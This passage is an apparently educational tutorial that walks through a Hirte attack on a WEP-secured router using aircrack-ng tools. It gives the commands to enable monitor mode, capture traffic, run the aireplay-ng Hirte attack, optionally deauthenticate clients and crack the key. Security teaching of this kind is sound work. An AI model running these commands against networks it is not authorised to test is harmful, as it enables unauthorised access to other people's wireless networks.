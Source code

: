 Verify the card is in monitor mode by re-entering airmon-ng:

`airmon-ng`

![injectiontest3-1](/content/images/2019/12/injectiontest3-1.png)

The interface is changed from **wlan0** to **wlan0mon** indicating the wireless card was succesfully placed into monitoring mode.

- 

As with most attacks, start an airodump-ng capture to output the keystream:

`airodump-ng -c 3 --essid "DIR-615" -w hirte-attack-key wlan0mon`

![hirte-airdodump-initial-1](/content/images/2020/01/hirte-airdodump-initial-1.png)

    -c: the channel the router is running on (3)
    --essid: the name of the SSID (DIR-615)
    -w: output the keystream to a file (hirte-attack-key)

- 

Perform the Hirte Attack:

`aireplay-ng -7 -h 00:C0:CA:96:C1:B6 -D wlan0mon`

![hirte-1](/content/images/2020/01/hirte-1.png)

![hirte-2](/content/images/2020/01/hirte-2.png)

![hirte-3](/content/images/2020/01/hirte-3.png)

    -7: flag to determine the Hirte Attack
    -h: MAC address of your wireless card (00:C0:CA:96:C1:B6)
    -D: disables AP detection

- As with the Caffe Latte attack, a [Deauthentication Attack](#deauthentication) may assist in capturing IVs (data column in airodump-ng):

![hirte-deauth](/content/images/2020/01/hirte-deauth.png)

- 

Finally, use aircrack-ng to crack the WEP key:

`aircrack-ng hirte-attack-key-01.cap`

![hirte-aircrack-initial](/content/images/2020/01/hirte-aircrack-initial.png)

After performing the above command, you should see the screen below:

![AIRCRACK-FINAL](/content/images/2020/01/AIRCRACK-FINAL.png)

The key has been found!

- 

